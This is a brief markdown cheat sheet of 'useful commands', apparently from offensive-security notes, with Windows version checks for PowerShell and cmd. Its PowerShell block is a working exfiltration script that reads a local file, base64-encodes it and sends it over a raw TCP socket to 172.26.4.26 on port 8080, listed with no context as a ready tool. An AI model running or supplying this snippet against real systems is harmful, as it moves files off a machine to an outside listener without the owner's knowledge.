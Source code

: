 # Useful Commands

## Powershell

- `[Environment]::OSVersion` - Check Windows OS Version (Useful to check patches)

```
$test=[System.Convert]::ToBase64String([io.file]::ReadAllBytes("c:\test"));
$socket = New-Object net.sockets.tcpclient('172.26.4.26',8080);
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$writer.WriteLine($test);
$socket.close()
```

## Cmd

- `winver` - Check Windows OS Version.